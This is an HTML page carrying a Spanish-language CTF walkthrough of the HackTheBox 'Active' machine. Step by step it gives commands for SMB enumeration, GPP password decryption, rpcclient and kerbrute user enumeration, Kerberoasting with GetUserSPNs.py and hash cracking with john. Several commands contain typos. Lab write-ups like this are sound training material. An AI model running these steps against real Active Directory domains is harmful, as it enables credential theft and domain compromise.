



<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Active</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Active" de HackTheBox

Caracteristicas:

- window
- Kerberoasting
- Active Directory
- Easy
- Internal
- Domain Reconaisance
- SMB
- Penetration Tester Level 1
- Default Credentials
- CVE-2014-1812
- Kerberos
- Public Vulnerabilities
- Anonymous/Guest Access
- User Enumeration
- Weak Permissions
- Authentication
- CVE Exploitation
- Password Cracking

Util en:

- OSCP 
- OSEP 
- Active Directory

        IP 10.10.10.100

- nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.100 -oG allPort

escaneo de puertos 

- sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49169 10.10.10.100 -oN targeted

podemos ver el puerto 443 de smb 

- crackmapexec smb 10.10.10.100

y nos devuelve 

- SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)

es un domain controler 

- cat targeted -l ruby 

aparte de crackmapexec intentaremos listar con smclient los recursos a nivel de red con null session ya que no disponemos de credenciales

- smbclient -L 10.10.10.100 -N



no vemos si tenemos capacidad de escritura o lectura, asi que con smbmap nos representara los recursos con sus permisos correspondientes

- smbmap -H 10.10.10.100 

vemos que tenemos permiso de lectura 

- smbmap -H 10.10.10.100 -r Replication/active.htb/

<pre>
<code>
	dr--r--r--                0 Sat Jul 21 06:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 06:37:44 2018	..
	dr--r--r--                0 Sat Jul 21 06:37:44 2018	DfsrPrivate
	dr--r--r--                0 Sat Jul 21 06:37:44 2018	Policies
	dr--r--r--                0 Sat Jul 21 06:37:44 2018	scripts
</code>
</pre>

tiene una estetica similar a algo conocido como sysvol 
veremos lo que hay dentro de policies ya que normalmente hay un archivito groups.xml, podemos llegar a ver una contraseña encriptada que podriamos bruteforcear
con la utilidad gpp-decrypt un recurso en ruby que usa la key aes de microsoft y la desencripta.

- smbmap -H 10.10.10.100 -r Replication/active.htb/Policies/123213-1231451-1231-1241523/MACHINE/Preferences/Groups/groups.xml

lo descargamos a nuestra maquina

- smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/123213-1231451-1231-1241523/MACHINE/Preferences/Groups/groups.xml

lo revisamos.



asi que se ve el password encryptado, asi que lanzaremos

- gpp-decrypt 'clave'

y nos devuelve la clave en texto claro. vemos el usuario svg_tgs

la validamos con crackmapexec

- crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'clave'

ahora autenticados podemos ver los recursos 

- crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -P 'PASWWD' --shares

con smbmap

- smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'password' -r Users/svc_tgs/Desktop/

vemos la flag de uvc_tgs la descargamos

-  smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'password' -Download Users/svc_tgs/Desktop/flag.txt

ahora ganaremos acceso admin tenemos usuario y clave asi que intentaremos autenticarnos por rpc client a la maquina victima.
antes de proseguir, es bueno recalcar que podiamos haber ingresado a rpc client sin credenciales validas con null session de la siguiente forma

- rpclient -U 10.10.10.100 -N 

bueno en este punto podriamos buscar caracteristicas de usuarios tipo 'enumdomusers', 'enumdomgroups' etc asi que haremos

- rpcclient -U "SVC_USER%clavedeusuario" 10.10.10.100 -c 'enumdomgroups'

para enumerar los grupos del dominio y vemos domain admin y un rid 



queremos enumerar los usuarios que sean parte de ese grupo, asi que podriamos jugar con querygroupmem pasandole el rid del grupo, esto enumerará los ususarios de este 
grupo. Nos muestra el de administrator

- rpcclient -U "SVC_USER%clavedeusuario" 10.10.10.100 -c 'querygroupmem 0x200'

otra consulta para enumerar descripciones de todos los usuario es  'querydispinfo'

si tubieramos una lista de varios usuarios, podriamos via rpcclient enumdomusers rescatar todos los users pues podriamos con (getnpusers) intentar rescatar un tgt (ticket granted ticket) 
mediante un [TGT ASREProast attack]] de la siguiente manera.

- GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 

donde users.txt e sla lista de usuarios. Por aqui no podemos, pero como recordamos anteriormente tenemos el puerto 88 abierto (kerberos), tenemos una via potencial de enumerar usuarios validos 
con diccionario, que seria de la siguiente forma

- kerbrute userenum --dc 10.10.10.100 -d active.htb /usr/share/seclists/usernames/names/names.txt

para los asproastatack o el kerberosting el reloj debe estar sincronizado con el del dc, esto se puede hacer con.

- ntpdate 10.10.10.100

como hemos visto que agent users no es, vamos a tirar de getuserspns.py de la siguiente forma

- GetUserSPNs.py active.htb/SVC_TGS:CLAVE

nos devuelve datos, asi que podrimaos obetener un ticket granted service en este caso, asi que si le metemos un request al final y copiamos la salida.

- GetUserSPNs.py active.htb/SVC_TGS:CLAVE -request

vemos un hash. Si podemos romperlo nos podremos validar como administrador, asi que con jhon haremos.

- john -w:$(locate rockyou.txt) hash

nos devuelve la clave asi que nos logueamoss como admin y buscamos la flag.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>